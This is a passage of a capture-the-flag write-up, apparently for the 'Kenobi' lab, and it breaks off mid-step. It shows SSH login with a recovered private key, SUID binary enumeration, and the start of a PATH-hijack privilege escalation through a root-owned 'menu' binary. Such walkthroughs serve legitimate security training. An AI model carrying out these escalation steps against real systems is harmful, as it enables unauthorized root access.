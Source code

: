 We have to change the permissions of this file to 600 using chmod, it is necesary for a ssh login to use the identify file.
<pre><code>~/kenobi> chmod 600 id_rsa</code></pre>

<pre><code>~/kenobi> ssh -i id_rsa kenobi@10.10.180.178</code></pre>
<br><br>
And we are in, let's get the first flag.
<pre><code>kenobi@kenobi:~$ ls
share  user.txt</code></pre>
<pre><code>kenobi@kenobi:~$ cat user.txt 
https://github.com/scriniariii/</code></pre>
<br><br>
For the next flag it is necessary to do a privilege escalation, This command finds all files on the system with the setuid (SUID) bit set, which means that they will be executed with the privileges of the owner of the file.
<pre><code>enobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6</code></pre>

The first thing that seems odd is a binary called menu, this binary executes the following 3 commands as root.
<pre><code>kenobi@kenobi:~/share$ /usr/bin/menu                        

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1     
HTTP/1.1 200 OK
Date: Thu, 09 May 2024 06:24:49 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html</code></pre>
<pre><code>** Enter your choice :2
4.8.0-58-generic</code></pre>
<br><br>
Create a file named ifconfig with the bash path, grant read, write and execute permissions for the ifconfig file, and add the current directory to the top of the command search list
<pre><code>